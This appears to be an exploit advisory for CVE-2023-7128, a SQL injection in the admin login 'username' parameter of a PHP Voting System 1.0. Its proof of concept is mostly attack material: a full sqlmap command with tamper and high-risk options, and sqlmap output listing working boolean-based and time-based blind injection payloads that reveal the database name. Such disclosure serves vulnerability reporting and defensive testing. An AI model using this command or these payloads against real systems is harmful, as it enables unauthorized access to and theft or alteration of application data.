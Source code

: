 # CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Exploit Title:** CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7128

## References: 
+ **CVE-2023-7128:** https://vuldb.com/?id.249131
+ https://www.cve.org/CVERecord?id=CVE-2023-7128

## Description:
Voting System 1.0 allows SQL Injection via parameter 'username' in "/votesystem/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin login page: "http://localhost/votesystem/admin/"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6416=6416-- SOwv&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3547 FROM (SELECT(SLEEP(5)))OFWl)-- funY&password=test&login=
---
[18:54:43] [INFO] testing MySQL
[18:54:44] [INFO] confirming MySQL
[18:54:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:54:44] [INFO] fetching current database
[18:54:44] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/09972f6e-8875-4c94-b64d-3cebf4ff1ab8)
